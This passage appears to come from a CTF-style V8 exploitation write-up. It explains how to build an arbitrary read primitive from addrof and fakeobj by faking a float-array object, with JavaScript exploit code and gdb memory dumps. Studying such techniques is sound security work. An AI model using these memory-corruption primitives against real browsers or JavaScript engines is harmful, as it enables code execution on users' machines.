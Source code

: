 ### Arbitrary Read & Write Primitives

#### Arbitrary Read Primitive
To establish an arbitrary address read primitive using `addrof` and `fakeobj`, the process involves manipulating a float array and creating a fake object. Here's a concise explanation of the steps:

1. Create a Float Array: Start with a float array of exactly four elements. The element object of this array will be positioned at the lower 0x30 of the float array object.
2. Create a Fake Object: Transform the elements into a fake object, with the type set as a float array.
3. Place Target Address: Position the target address at element[2] of the float array. This position will be interpreted as the element field of the fake object.
4. Access the Fake Object: By accessing index 0 of the fake object, V8 attempts to retrieve the value at `target address + 0x10`.

![](./solution/assets/arbitrary-read-primitive.jpg)

```
// If we want to leak the following string:
let target_string = "AAAAAAAA";
let target_string_addr = addrof(target_string);
console.log("[+] Address of target string: 0x" + target_string_addr.toString(16));
// %SystemBreak();
// [+] Address of target string: 0xc6a37f9f3c9
// (gdb) x/32xw 0xc6a37f9f3c9-1
// 0xc6a37f9f3c8:	0xd9840461	0x00003369	0xe62bbeea	0x00000008
// 0xc6a37f9f3d8:	0x41414141	0x41414141	0xd9840461	0x00003369  <-- target_string
// 0xc6a37f9f3e8:	0xfe1f98a6	0x00000012	0x67726174	0x735f7465

let floatArray = [1.1, 1.2, 1.3, 1.4];
let floatArrayMap = floatArray.oob();
floatArray[0] = floatArrayMap;
floatArray[2] = itof(BigInt(target_string_addr));
console.log("[+] Leak address of floatArray: 0x" + addrof(floatArray).toString(16));
// %SystemBreak();
```